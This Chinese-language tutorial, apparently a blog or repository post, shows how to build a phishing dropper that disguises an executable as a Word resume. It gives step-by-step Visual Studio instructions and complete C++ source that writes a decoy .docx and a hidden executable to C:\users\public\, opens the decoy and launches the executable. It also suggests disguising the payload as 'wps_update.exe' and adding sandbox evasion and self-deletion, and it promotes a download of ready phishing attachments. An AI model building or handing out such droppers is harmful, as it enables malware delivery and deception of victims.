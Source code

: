# 鱼饵-资源文件 捆绑马

## 目录

- [0x00 手法介绍](#0x00-手法介绍)
- [0x01 复现步骤](#0x01-复现步骤)
- [0x02 代码函数详解](#0x02-代码函数详解)
- [0x03 代码展示](#0x03-代码展示)

# 0x00 手法介绍

通过资源文件进行捆绑马的制作，主要是利用 Windows 系统 API 中的资源机制，将一个或多个文件添加到程序中作为资源，并在运行时从程序资源中获取相应的文件数据。

最主要的目的是点击exe后，能打开附件并自动执行木马文件。这和winrar捆绑马有很多的相似之处，都是点击捆绑马后释放到某个目录执行。但不同点在于执行前后的代码逻辑，可以通过C++代码进行设计。如可以增加沙箱检测机制，也可以增加点击自删除机制等等，主打的就是一个定制化~

# 0x01 复现步骤

在这里使用Visual Stdio 2019来创建资源文件

pass:文章末有关键字，回复可获取打包的整个项目。

1.资源文件->添加->资源

![](image/image_Y7Lei1hLN1.png)

2.在"增加资源"中选择"导入"

![](image/image_eoRu9ZhV4l.png)

3.在这里选择"所有文件( *.*)"

![](image/image__877LTcOPS.png)

4.使用资源文件进行捆绑，会存在文件导入的顺序问题。资源文件会默认按照文件后缀24个字母的排序顺序对导入的文件进行释放。因此在我们导入文件时，也必须按照24个英文字母的顺序对文件进行导入。如这里必须"金融研究生简历.docx">"calc.exe">"docx.ico"这个顺序进行导入。

![](image/image_28yVJldaBI.png)

5.当我们选择完文件后，需要在"资源类型"处输入当前文件的后缀，第一个文件是docx。

![](image/image_pgDy6XEdKX.png)

6.第二个文件是calc.exe，因此资源类型处要填写"exe"

![](image/image_8z1nGUByI_.png)

7.当我们把ico文件也导入后。就可以在这里看到我们导入的三个文件了。

![](image/image_7ZPHpXWJ9f.png)

8.最后编译出来的就是带有docx图标的exe文件了

![](image/image_XToIyxIDFI.png)

9.当我们点击捆绑马后，首先会在c:\users\public\目录下按照顺序生成"西交利物浦大学金融研究生简历.docx"并打开，再生成"kabers.exe" 后进行打开。

![](image/image_Mhw00VYaXe.png)

![](image/image_NppjOAoBJ-.png)

# 0x02 代码函数详解

对文件"释放路径"以及释放后的"名称"进行设置。

在这里释放路径为"C:\\\users\\\public\\\\"，也可以改为其他可写入目录。

同时也可以针对目标的业务，来对释放后的exe名称进行合理编写。如果对方是公司文员，那么可以使用"wps\_update.exe"进程名作为烟雾弹。

```c++
//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";
```

在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。

```c++
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);
```

首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。

```c++
HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());

```

然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。

```c++
HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
```

&#x20;&#x20;

接着，使用 SizeofResource() 函数获取该资源的大小。

```c++
DWORD FileSize = SizeofResource(NULL, Resource);

```

最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。

```c++
LPVOID PFILE = LockResource(ResourceGlobal);
```

# 0x03 代码展示

```c++
#include <iostream>
#include <windows.h>
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )

using namespace std;

//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";

//定义 EnumTypesFunc() 函数，该函数用于处理枚举到的资源类型。
void EnumTypesFunc(HMODULE hModule, LPTSTR lpType, LPTSTR lParam) {
    string Name = "";
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    //在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);

    //首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。
    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());
    //然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //接着，使用 SizeofResource() 函数获取该资源的大小。
    DWORD FileSize = SizeofResource(NULL, Resource);
    //最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。
    LPVOID PFILE = LockResource(ResourceGlobal);

    //根据资源类型判断需要提取的文件名，并构造保存文件的完整路径。
    if (fileType == "EXE") {
        Name = EXE;
    }
    else {
        Name = Filename;
    }
    string FileNameFinal = czTempPath + Name;
    strcpy_s(FileName, FileNameFinal.c_str());

    //使用 CreateFileA() 函数创建一个新的文件，并将资源数据写入该文件中。
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    CloseHandle(FILE);

    //使用 ShellExecuteExA() 函数启动刚才提取的文件
    Sleep(100);
    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
}


int main(int argc, char* argv[])
{
    //在 main() 函数中使用枚举函数 EnumResourceTypes() 枚举所有资源类型
    EnumResourceTypes(NULL,
        (ENUMRESTYPEPROC)EnumTypesFunc,
        0);                           
}

```

我也将整个项目都进行了打包，下载后双击即可打开进行编辑，在后台回复“资源”即可获取\~

![](image/image_V9DlY1QlH6.png)

回复"附件”即可获取如下钓鱼常用附件！

![](image/image_f0FH7D1tqh.png)

![](image/image_qQVqyynphz.png)

![](image/image_4RIiwN-QTh.png)

